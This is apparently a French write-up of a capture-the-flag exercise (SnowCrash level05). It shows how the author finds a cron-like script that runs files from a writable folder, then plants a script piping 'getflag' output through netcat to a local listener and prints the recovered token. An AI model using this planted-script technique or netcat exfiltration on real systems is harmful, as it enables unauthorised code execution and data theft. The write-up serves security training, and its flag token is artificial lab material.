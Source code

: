 ﻿```bash
$ ls -l
total 0
```

Ca commence bien, il n'y a rien dans le répertoire.

Je pars donc à la recherche de fichiers associes a level05 ou flag05

```bash
$ find / -user level05 2>/dev/null
/dev/pts/0
/proc/4215
/proc/4215/task
/proc/4215/task/4215
/proc/4215/task/4215/attr
/proc/4215/net
/proc/4215/attr
...

# Bon rien de particulier... Je cherche pour flag05

$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

Okay, on a un fichier interessant, je vais donc l'ouvrir pour voir ce qu'il contient.

```bash
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Le script execute tous les fichiers dans /opt/openarenaserver et les supprime ensuite...

Pour test je cree un fichier dans ce dossier, le rend executable et j'attends pour voir s'il disparait

...

Au bout de 10-15 secondes, le fichier a disparu.

Je vais donc creer un fichier qui va executer `getflag` et m'envoyer le resultat via `nc` sur ma machine.

```bash
$ echo 'getflag | nc localhost 4000' > /opt/openarenaserver/flag05.sh && chmod +x /opt/openarenaserver/flag05.sh && nc -l 4000
```

J'attend un petit peu et bim~

```bash
Check flag.Here is your token : viuaaale9huek52boumoomioc
```